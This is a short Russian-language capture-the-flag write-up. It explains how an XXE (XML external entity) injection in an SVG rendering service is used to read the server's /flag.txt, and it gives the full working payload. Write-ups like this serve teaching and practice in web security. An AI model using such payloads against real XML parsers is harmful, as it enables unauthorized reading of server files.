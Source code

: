 # Сломанный ящик: Write-up #
Попадая на сайт, видим окошко с xml-кодом и окошко, в котором он рендерится. Судя по описанию, нам нужно как-то отрендерить файл `/flag.txt`.
В хинте сказано про некие "внешние сущности", т.е. "Eternal entities", гугл на эту тему даёт нам определение [XXE](https://habr.com/ru/companies/vds/articles/454614/).

Суть заключается в том, что мы через элемент `DOCTYPE` подгрузим файл, который потом отрендерим в элементе `svg` как текст:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
```
Можно убрать из примера кодв лишние кружочки и квадратики, тогда код будет выглядеть так:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg version = "1.1"
        baseProfile="full"
        xmlns = "http://www.w3.org/2000/svg" 
        xmlns:xlink = "http://www.w3.org/1999/xlink"
        xmlns:ev = "http://www.w3.org/2001/xml-events"
        height = "400px"  width = "400px">
<text x="20" y="35" class="small">&xxe;</text>
</svg>
```
Загружаем и получаем флаг: `CCODEBY{**********}`
